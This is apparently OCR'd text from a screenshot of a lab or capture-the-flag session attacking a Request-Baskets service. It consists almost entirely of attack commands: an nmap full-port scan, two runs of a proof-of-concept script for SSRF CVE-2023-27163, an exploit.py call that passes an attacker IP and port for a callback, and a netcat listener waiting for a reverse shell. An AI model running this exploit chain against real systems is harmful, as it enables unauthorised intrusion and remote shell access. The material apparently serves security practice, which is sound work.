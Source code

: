 sudo nmap -n -Pn -p-

./CVE-2023-27163.sh http://10.129.229.26:55555 http://127.0.0.1:80  
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

./script.sh http://10.129.127.134:55555 http://127.0.0.1:80/login  
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

python3 exploit.py 10.10.16.44 1234 http://10.129.127.134:55555/sbqmby  
Running exploit on http://10.129.127.134:55555/sbqmby

nc -nlvp 7733